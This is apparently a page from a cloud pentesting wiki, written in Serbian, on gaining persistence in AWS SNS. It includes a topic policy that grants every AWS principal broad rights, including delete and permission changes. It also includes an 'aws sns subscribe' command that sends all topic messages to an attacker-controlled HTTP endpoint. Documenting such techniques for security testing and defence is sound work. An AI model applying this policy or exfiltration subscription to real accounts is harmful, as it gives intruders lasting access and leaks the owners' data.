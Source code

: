 # AWS - SNS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Za više informacija pogledajte:

{{#ref}}
../aws-services/aws-sns-enum.md
{{#endref}}

### Persistence

Kada kreirate **SNS temu**, potrebno je da navedete IAM politikom **ko ima pristup za čitanje i pisanje**. Moguće je navesti spoljne naloge, ARN uloga, ili **čak "\*"**.\
Sledeća politika daje svima u AWS-u pristup za čitanje i pisanje u SNS temu pod nazivom **`MySNS.fifo`**:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Kreirajte Pretplatnike

Da bi se nastavilo sa eksfiltracijom svih poruka sa svih tema, napadač može **kreirati pretplatnike za sve teme**.

Napomena: ako je **tema tipa FIFO**, samo pretplatnici koji koriste protokol **SQS** mogu se koristiti.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{{#include ../../../banners/hacktricks-training.md}}
